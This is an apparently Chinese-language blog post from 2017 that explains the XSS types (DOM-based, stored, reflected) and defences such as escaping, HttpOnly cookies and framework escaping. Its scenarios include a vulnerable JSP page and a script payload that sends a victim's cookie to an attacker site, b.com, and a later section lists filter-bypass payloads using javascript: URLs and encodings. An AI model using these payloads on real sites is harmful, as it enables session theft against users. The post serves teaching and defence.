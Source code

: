 title: XSS攻击及预防
date: 2017-02-18 14:45:23
tags: [安全]
---

## XSS攻击是什么
- XSS又称CSS，全称Cross SiteScript跨站脚本攻击的缩写，是一种网站应用程序的安全漏洞攻击，是代码注入的一种。
- 通常是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。
- 这些恶意网页程序通常是JavaScript，但实际上也可以包括Java，VBScript，ActiveX，Flash或者甚至是普通的HTML。
- 攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、会话和盗取用户Cookie、破坏页面结构、重定向到其它网站等

### XSS攻击基本原理——代码注入

在web的世界里有各种各样的语言，于是乎对于语句的解析大家各不相同，有一些语句在一种语言里是合法的，但是在另外一种语言里是非法的。这种二义性使得黑客可以用代码注入的方式进行攻击——将恶意代码注入合法代码里隐藏起来，再诱发恶意代码，从而进行各种各样的非法活动。只要破坏跨层协议的数据/指令的构造，我们就能攻击。
历史悠久的`SQL注入`和`XSS注入`都是这种攻击方式的典范。现如今，随着参数化查询的普及，我们已经离`SQL注入`很远了。但是，历史同样悠久的`XSS`却没有远离我们。
`XSS`的基本实现思路很简单——比如`持久型XSS`通过一些正常的站内交互途径，例如发布评论，提交含有`JavaScript`的内容文本。这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到了页面上，其他用户访问这个页面的时候就会运行这些脚本，从而被攻击。

攻击分类举例
### DOM-based XSS
基于DOM的XSS，通过对具体DOM代码进行分析，根据实际情况构造dom节点进行XSS跨站脚本攻击，该攻击特点是中招的人是少数人。
**场景一**：
当我登录a.com后，我发现它的页面某些内容是根据url中的一个叫content参数直接显示的，猜测它测页面处理可能是这样，其它语言类似： 
```html
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<!DOCTYPEhtmlPUBLIC"-//W3C//DTD HTML 4.01 Transitional//EN""http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
   <title>XSS测试</title>
</head>
<body>
   页面内容：<%=request.getParameter("content")%>
</body>
</html>
```

我知道了Tom也注册了该网站，并且知道了他的邮箱(或者其它能接收信息的联系方式)，我做一个超链接发给他，超链接地址为：http://www.a.com?content=<script>window.open(“www.b.com?param=”+document.cookie)</script>，当Tom点击这个链接的时候(假设他已经登录a.com)，浏览器就会直接打开b.com，并且把Tom在a.com中的cookie信息发送到b.com，b.com是我搭建的网站，当我的网站接收到该信息时，我就盗取了Tom在a.com的cookie信息，cookie信息中可能存有登录密码，攻击成功！这个过程中，受害者只有Tom自己。那当我在浏览器输入a.com?content=<script>alert(“xss”)</script>，浏览器展示页面内容的过程中，就会执行我的脚本，页面输出xss字样，这是攻击了我自己，那我如何攻击别人并且获利呢？

### 持久型XSS
也叫存储型XSS——主动提交恶意数据到服务器，攻击者在数据中嵌入代码，这样当其他用户请求后，服务器从数据库中查询数据并发给用户，用户浏览此类页面时就可能受到攻击。由于其攻击代码已经存储到服务器上或者数据库中，所以受害者是很多人。可以描述为:恶意用户的HTML或JS输入服务器->进入数据库->服务器响应时查询数据库->用户浏览器。

**场景二**：
a.com可以发文章，我登录后在a.com中发布了一篇文章，文章中包含了恶意代码，<script>window.open(“www.b.com?param=”+document.cookie)</script>，保存文章。这时Tom和Jack看到了我发布的文章，当在查看我的文章时就都中招了，他们的cookie信息都发送到了我的服务器上，攻击成功！这个过程中，受害者是多个人。Stored XSS漏洞危害性更大，危害面更广。

### 反射型XSS
反射性XSS，也就是被动的非持久性XSS。诱骗用户点击URL带攻击代码的链接，服务器解析后响应，在返回的响应内容中隐藏和嵌入攻击者的XSS代码，被浏览器执行，从而攻击用户。
URL可能被用户怀疑，但是可以通过短网址服务将之缩短，从而隐藏自己。

### 使用XSS Filter
- 输入过滤，所有用户输入都是不可信的。”（注意: 攻击代码不一定在<script></script>中），对用户提交的数据进行有效性验证，仅接受指定长度范围内并符合我们期望格式的的内容提交，阻止或者忽略除此外的其他任何数据。

  | less-than character (<)                                      | &lt;                                                     |
  | ------------------------------------------------------------ | -------------------------------------------------------- |
  | greater-than character (>)                                   | &gt;                                                     |
  | ampersand character (&)                                      | &amp;                                                    |
  | double-quote character (")                                   | &quot;                                                   |
  | space character( )                                           | &nbsp;                                                   |
  | Any ASCII code character whose code is greater-than or equal to 0x80 | &#<number>, where <number> is the ASCII character value. |

比如用户输入：<script>window.location.href=”http://www.baidu.com”;</script>，保存后最终存储的会是&lt;script&gt;window.location.href=&quot;http://www.baidu.com&quot;&lt;/script&gt;在展现时浏览器会对这些字符转换成文本内容显示，而不是一段可执行的代码。



- 输出转义，当需要将一个字符串输出到Web网页时，同时又不确定这个字符串中是否包括XSS特殊字符，为了确保输出内容的完整性和正确性，输出HTML属性时可以使用HTML转义编码（HTMLEncode）进行处理，输出到<script>中，可以进行JS编码。

### 使用 HttpOnly Cookie
将重要的cookie标记为httponly，这样的话当浏览器向Web服务器发起请求的时就会带上`cookie`字段，但是在`js`脚本中却不能访问这个cookie，这样就避免了XSS攻击利用`JavaScript`的`document.cookie`获取`cookie`。

### CSP策略

单篇说

### 困难和幸运

过滤 Html 标签能否防止 XSS? 请列举不能的情况?

用户除了上传

```
<script>alert('xss');</script>
```

还可以使用图片 url 等方式来上传脚本进行攻击

```
<table background="javascript:alert(/xss/)"></table>
<img src="javascript:alert('xss')">
```

还可以使用各种方式来回避检查, 例如空格, 回车, Tab

```
<img src="javas cript:
alert('xss')">
```

还可以通过各种编码转换 (URL 编码, Unicode 编码, HTML 编码, ESCAPE 等) 来绕过检查

```
<img%20src=%22javascript:alert('xss');%22>
<img src="javascrip&#116&#58alert(/xss/)">
```

真正麻烦的是，在一些场合我们要允许用户输入HTML，又要过滤其中的脚本。这就要求我们对代码小心地进行转义。否则，我们可能既获取不了用户的正确输入，又被XSS攻击。
幸好，由于XSS臭名昭著历史悠久又极其危险，现代web开发框架如`vue.js`、`react.js`等，在设计的时候就考虑了XSS攻击对html插值进行了更进一步的抽象、过滤和转义，我们只要熟练正确地使用他们，就可以在大部分情况下避免XSS攻击。
同时，许多基于`MVVM`框架的`SPA`（单页应用）不需要刷新URL来控制view，这样大大防止了XSS隐患。另外，我们还可以用一些防火墙来阻止XSS的运行。

## 参考
https://blog.csdn.net/ghsau/article/details/17027893

https://www.imooc.com/article/13553

https://blog.csdn.net/u011781521/article/details/53894399

https://elemefe.github.io/node-interview/#/sections/zh-cn/security?id=xss


